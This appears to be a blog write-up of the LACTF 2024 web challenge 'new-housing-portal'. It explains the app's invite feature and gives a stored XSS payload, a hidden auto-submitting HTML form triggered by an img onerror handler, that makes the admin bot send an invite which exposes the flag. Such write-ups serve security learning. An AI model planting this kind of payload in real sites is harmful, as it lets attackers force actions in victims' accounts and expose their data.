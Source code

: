 ```yaml
---
title: "new-housing-portal"
description: "After that old portal, we decided to make a new one that is ultra secure and not based off any real housing sites. Can you make Samy tell you his deepest darkest secret? Hint - You can send a link that the admin bot will visit as samy. Hint - Come watch the real Samy's talk if you are stuck!"
pubDate: 2024-02-19
ctf: "LACTF 2024"
category: "web"
author: "sealldev"
section: "CTFs"
image: "images/24-lactf/icon.gif"
---
```


We are given an admin bot, a web interface and the source code.

Looking at the capabilities of the app, we seem to be able to register a user with a few parameters (username, password, name and deepest darkest secret).

![nhp-1.png](images/24-lactf/nhp-1.png)

Looking at the source code, we can see a user 'samy' (the GOAT) is registered and the flag is stored in his deepest darkest secret.

```js
users.set('samy', {
  username: 'samy',
  name: 'Samy Kamkar',
  deepestDarkestSecret: process.env.FLAG || 'lactf{test_flag}',
  password: process.env.ADMINPW || 'owo',
  invitations: [],
  registration: Infinity
});
```

Once registered we seem to have a few capabilities:
- Sending invites to a user based on their username, it displays their username, name and an invite button (`/finder/?q=USERNAME`)

![nhp-2.png](images/24-lactf/nhp-2.png)

- Recieveing invites from a user, displays their name and deepest darkest secret (`/request`)

![nhp-3.png](images/24-lactf/nhp-3.png)

It seems we have to force samy to send an invite to us to see the flag, I make a new user with a potential payload idea involving XSS.

I make a new form using HTML with my username to submit an invite, and an XSS to trigger the form, as follows:

```html
<form name="invitefix" action="/finder" method="POST">
  <input type="hidden" name="username" value="USERNAME">
  <input type="submit" value="Invite">
</form>
<img src=x onerror="document.invitefix.submit()"/>
```

The form being redefined above allows it to access the form, and using the `<img src=x onerror="">` allows some slight delay before triggering, which seemed more consistent.

I send the following URL to the admin bot to trigger the search for my user and set the payload off.

`https://new-housing-portal.chall.lac.tf/finder/?q=USERNAME`

Once visited, we can see samy has visited and sent us an invite, how kind!

Flag: `lactf{b4t_m0s7_0f_a77_y0u_4r3_my_h3r0}`